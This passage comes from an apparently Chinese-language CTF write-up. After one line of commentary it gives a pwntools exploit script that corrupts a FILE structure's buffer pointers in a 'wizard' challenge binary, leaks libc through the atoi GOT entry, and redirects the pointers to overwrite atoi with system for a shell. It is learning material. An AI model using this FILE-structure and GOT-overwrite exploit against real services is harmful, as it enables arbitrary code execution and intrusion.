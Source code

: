 调整后，_IO_write_ptr指向了atoi的GOT-1处。现在就能简单修改atoi的GOT为system地址，拿shell了。

```python
from pwn import *  
sh = remote('61.147.171.105',58151)   
atoi_got = 6299776
log_addr = 6299872
  
def create():  
   sh.sendlineafter('choice>> ','1')  
   sh.sendlineafter("Give me the wizard's name:","seaase")  
  
def WizardSpell(index,content):  
   sh.sendlineafter('choice>> ','2')  
   sh.sendlineafter('Who will spell:',str(index))  
   sh.sendafter('Spell name:',content)  
  
#这两步是为了初始化FILE的结构体  
create()  
WizardSpell(0,'seaase')  
#修改log_file结构体的_IO_write_base  
for i in range(8):  
   #_IO_write_base = _IO_write_base + 1 - 50  
   WizardSpell(-2,b'\x00')  
  
#在不影响log_file结构体的情况下，我们抬升_IO_write_base 13个字节，然后再-=50  
WizardSpell(-2,b'\x00'*13)  
  
for i in range(3):  
   #_IO_write_base = _IO_write_base + 1 - 50  
   WizardSpell(-2,b'\x00')  
  
#在不影响log_file结构体的情况下，我们抬升_IO_write_base 9个字节，然后再-=50  
WizardSpell(-2,b'\x00'*9)  
WizardSpell(-2,b'\x00')  
  
#现在，_IO_write_base指向了log_file的结构体附近处，我们可以修改log_file的结构体了  
payload = b'\x00' * 3 + p64(0x231)  
#flags  
payload += p64(0xFBAD24A8)  
WizardSpell(0,payload)  
#_IO_read_ptr  _IO_read_end  
payload = p64(atoi_got) + p64(atoi_got+0x100)  
WizardSpell(0,payload)  
atoi_addr = u64(sh.recv(8))  
libc_base = atoi_addr - 0x036e80
system_addr = libc_base + 0x045390
  
#回到之前的位置  
WizardSpell(-2, p64(0) + p64(0))  
#重新写  
WizardSpell(0, b'\x00' * 2 + p64(0x231) + p64(0xfbad24a8))  
#需要_IO_read_ptr大于等于_IO_read_end，经过调试，发现输出以后，发现0x50正好  
WizardSpell(0, p64(log_addr) + p64(log_addr + 0x50) + p64(log_addr))  
#泄露log_file结构体的地址  
heap_addr = u64(sh.recvn(8)) - 0x10   
  
WizardSpell(0,p64(heap_addr + 0x100)*3)  
#覆盖_IO_buf_base和_IO_buf_end  
#然后程序中执行fread就会修改_IO_write_ptr为_IO_buf_base  
WizardSpell(0,p64(atoi_got+0x78 + 23) + p64(atoi_got + 0xA00))  
  
#  
WizardSpell(-2,b'\x00')  
```